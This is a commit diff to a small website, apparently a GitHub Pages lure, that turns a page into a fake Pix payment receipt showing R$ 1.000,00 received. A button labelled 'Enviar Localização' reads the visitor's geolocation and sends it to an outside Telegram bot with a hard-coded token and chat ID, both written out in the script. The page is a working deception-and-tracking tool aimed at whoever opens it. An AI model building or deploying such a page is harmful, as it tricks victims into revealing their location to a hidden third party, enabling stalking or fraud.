

Before and after one commit to smithwaredev/comprovante-bot-pages, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,18 +1,106 @@
 <!DOCTYPE html>
-<html lang="pt-br">
+<html lang="pt-BR">
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Comprovante de Pix</title>
+  <title>Comprovante de Recebimento</title>
+  <link rel="stylesheet" href="styles.css">
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      background-color: #f4f4f4;
+      padding: 20px;
+      color: #333;
+    }
+
+    .comprovante-container {
+      background-color: white;
+      padding: 20px;
+      border-radius: 8px;
+      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+      width: 80%;
+      margin: 0 auto;
+    }
+
+    h1 {
+      text-align: center;
+      color: #1c74d5;
+    }
+
+    .informacoes {
+      margin-top: 20px;
+      font-size: 16px;
+    }
+
+    .informacoes p {
+      margin: 10px 0;
+    }
+
+    .informacoes span {
+      font-weight: bold;
+    }
+
+    .botao {
+      display: block;
+      width: 100%;
+      padding: 10px;
+      background-color: #28a745;
+      color: white;
+      border: none;
+      border-radius: 5px;
+      cursor: pointer;
+      font-size: 16px;
+      margin-top: 20px;
+    }
+
+    .botao:hover {
+      background-color: #218838;
+    }
+
+    .comprovante-footer {
+      text-align: center;
+      margin-top: 30px;
+      font-size: 14px;
+    }
+
+    .comprovante-footer a {
+      color: #1c74d5;
+      text-decoration: none;
+    }
+  </style>
 </head>
+
 <body>
-  <h1>Comprovante de Pix Recebido</h1>
-  <img src="comprovante.png" alt="Comprovante de Pix" width="300">
-  <p>Para confirmar, precisamos da sua localização. Por favor, permita a permissão de localização.</p>
+  <div class="comprovante-container">
+    <h1>Comprovante de Recebimento</h1>
 
-  <button onclick="getLocation()">Obter Localização</button>
+    <div class="informacoes">
+      <p><span>Data:</span> <span id="data-atual"></span></p>
+      <p><span>Valor Recebido:</span> R$ 1.000,00</p>
+      <p><span>De:</span> João Silva de Oliveira</p>
+      <p><span>Status:</span> Recebido com Sucesso</p>
+    </div>
+
+    <button class="botao" onclick="window.print()">Imprimir</button>
+
+    <div class="comprovante-footer">
+      <p>Se você tiver dúvidas, entre em contato com nosso suporte.</p>
+      <p><a href="#">Clique aqui</a> para mais informações.</p>
+    </div>
+
+    <button class="botao" onclick="getLocation()">Enviar Localização</button>
+  </div>
 
   <script>
+    // Preencher data atual
+    const dataAtual = new Date();
+    const dia = String(dataAtual.getDate()).padStart(2, '0');
+    const mes = String(dataAtual.getMonth() + 1).padStart(2, '0');
+    const ano = dataAtual.getFullYear();
+    const dataFormatada = `${dia}/${mes}/${ano}`;
+    document.getElementById("data-atual").textContent = dataFormatada;
+
+    // Função para obter a localização
     function getLocation() {
       if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(sendLocation, showError);
@@ -21,13 +109,14 @@
       }
     }
 
+    // Enviar localização para o Telegram
     function sendLocation(position) {
       const lat = position.coords.latitude;
       const lon = position.coords.longitude;
 
-      // Token do bot e chat ID fornecidos
-      const telegramBotToken = "7964496822:AAFCBrNEI0b0oYQOFimCMobsWi_peVjN0wY";  // Seu token do bot
-      const chatId = "6045619916";  // Seu chat ID (ID do usuário ou grupo do Telegram)
+      // Substitua pelos seus dados reais (não deixe visível em um repositório público)
+      const telegramBotToken = "7964496822:AAFCBrNEI0b0oYQOFimCMobsWi_peVjN0wY"; // Seu token do bot
+      const chatId = "6045619916"; // Seu chat ID (ID do usuário ou grupo do Telegram)
 
       const url = `https://api.telegram.org/bot${telegramBotToken}/sendLocation?chat_id=${chatId}&latitude=${lat}&longitude=${lon}`;
 
@@ -37,7 +126,7 @@
           if (data.ok) {
             alert("Localização enviada com sucesso!");
           } else {
-            alert("Erro ao enviar localização. Detalhes: " + JSON.stringify(data));
+            alert("Erro ao enviar localização: " + JSON.stringify(data));
           }
         })
         .catch(error => {
@@ -45,6 +134,7 @@
         });
     }
 
+    // Mostrar erro caso a localização não seja obtida
     function showError(error) {
       switch(error.code) {
         case error.PERMISSION_DENIED:
@@ -63,4 +153,5 @@
     }
   </script>
 </body>
+
 </html>
```
